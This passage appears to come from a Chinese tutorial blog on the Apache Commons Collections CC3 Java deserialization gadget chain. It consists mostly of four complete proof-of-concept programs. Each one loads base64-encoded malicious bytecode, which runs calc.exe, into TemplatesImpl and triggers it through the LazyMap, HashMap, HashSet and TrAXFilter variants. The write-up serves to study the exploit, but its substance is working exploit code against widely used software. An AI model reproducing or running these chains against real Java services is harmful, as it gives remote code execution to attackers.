

CC1的LazyMap链一样的，只用修改后半部分。

CC3（LazyMap）完整poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        ConstantTransformer Im=new ConstantTransformer(Impl);
        InvokerTransformer newTransformer=new InvokerTransformer("newTransformer",null,null);
        Transformer[] transformers = new Transformer[]{Im,newTransformer};
        ChainedTransformer chaind=new ChainedTransformer(transformers);

        HashMap hashMap=new HashMap<>();
        Map Lazymap= LazyMap.decorate(hashMap, chaind);
        hashMap.put("value","b1uel0n3");  //可不需要，因为不用去触发memberValues.getValue()方法

        Class<?> cls= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler= (InvocationHandler)constructor.newInstance(Retention.class, Lazymap);
        Map proxy= (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        Object o=constructor.newInstance(Retention.class,proxy);

        serialize(o);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



#### CC6环境下

如果jdk版本在8u71以上，那么我们就可以利用CC6+TemplatesImpl加载字节码来构造poc

原理也是一样的，因为CC1和CC6后半部分的调用都是一样的

CC3（HashMap）完整poc:

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;

import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());
        
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Im=new ConstantTransformer(Impl);
        InvokerTransformer newTransformer=new InvokerTransformer("newTransformer",null,null);
        Transformer[] transformers = new Transformer[]{Im,newTransformer};
        
        ChainedTransformer chaind=new ChainedTransformer(faketransformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chaind);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");
        Map map=new HashMap();
        map.put(tiedMapEntry,"b1uel0n3");
        innermap.remove("111");

        Field field=chaind.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chaind,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



CC3（HashSet）完整poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;

import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};
        
        ConstantTransformer Im=new ConstantTransformer(Impl);
        InvokerTransformer newTransformer=new InvokerTransformer("newTransformer",null,null);
        Transformer[] transformers = new Transformer[]{Im,newTransformer};
        ChainedTransformer chaind=new ChainedTransformer(faketransformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chaind);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
        HashSet map=new HashSet();
        map.add(tiedMapEntry);
        innermap.remove("b1uel0n3");

        Field field=chaind.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chaind,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



### TrAXFilter类构造

观察[ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections3.java)给的CC3 poc：



可以看到它给的poc用的是**TrAXFilter**类，且ChainedTransformer利用链中并不是利用InvokerTransformer调用newTransformer方法，而是通过**InstantiateTransformer**类。

这里我们一一分析，先看TrAXFilter类：  
先通过全局搜索哪些方法调用了**newTransformer()**方法：



可以看到，TrAXFilter类恰好调用了templates.newTransformer()方法，且该方法是在构造方法中，注意传入的参数是Templates对象，所以我们可以修改poc传入templates为我们的恶意TemplatesImpl：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.util.Base64;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());

        TrAXFilter trAXFilter=new TrAXFilter(Impl);
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(filedname);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```



可以看到能成功弹计算机，但我们肯定是需要在反序列化时能够调用该构造方法弹出计算机呀，即需要在调用链ChainedTransformer中调用，而要执行TrAXFilter的构造方法，这时InvokerTransformer就利用不了了，就需要一个新类**InstantiateTransformer**：

